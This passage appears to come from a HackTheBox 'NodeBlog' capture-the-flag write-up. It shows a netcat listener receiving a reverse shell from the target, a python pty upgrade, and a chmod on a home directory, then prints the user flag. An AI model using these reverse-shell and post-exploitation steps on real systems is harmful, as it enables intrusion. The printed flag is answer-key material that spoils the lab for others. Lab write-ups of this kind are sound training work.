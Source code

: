 Lets see the response here →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/NodeBlog]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.213] from (UNKNOWN) [10.10.11.139] 56480
/bin/sh: 0: can not access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /home/admin/.bashrc: Permission denied
admin@nodeblog:/opt/blog$
admin@nodeblog:/opt/blog$ whoami
admin
admin@nodeblog:/opt/blog$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
admin@nodeblog:/opt/blog$
```
{: .nolineno}
{: .nolineno}

## SHELL ➡️

Now lets dig deeper →

```bash
admin@nodeblog:/home$ cat admin/user.txt
cat: admin/user.txt: Permission denied
admin@nodeblog:/home$ chmod +x admin
admin@nodeblog:/home$ cd admin
admin@nodeblog:~$ ls -al
total 36
drwxr-xr-x 1 admin admin   220 Jan  3  2022 .
drwxr-xr-x 1 root  root     10 Dec 27  2021 ..
-rw------- 1 admin admin  1863 Dec 31  2021 .bash_history
-rw-r--r-- 1 admin admin   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 admin admin  3771 Feb 25  2020 .bashrc
drwx------ 1 admin admin    40 Jul  2  2021 .cache
-rw------- 1 admin admin   125 Dec 13  2021 .dbshell
-rw------- 1 admin admin     0 Dec 13  2021 .mongorc.js
drwxrwxr-x 1 admin admin   158 Jan  3  2022 .pm2
-rw-r--r-- 1 admin admin   807 Feb 25  2020 .profile
-rw-r--r-- 1 admin admin     0 Jul  2  2021 .sudo_as_admin_successful
-rw------- 1 admin admin 10950 Jan  3  2022 .viminfo
-rw-r--r-- 1 root  root     33 Jul 26 08:26 user.txt
admin@nodeblog:~$ cat user.txt
be2762310e1a940d74f996f9d6dbf335
admin@nodeblog:~$
```
{: .nolineno}
{: .nolineno}
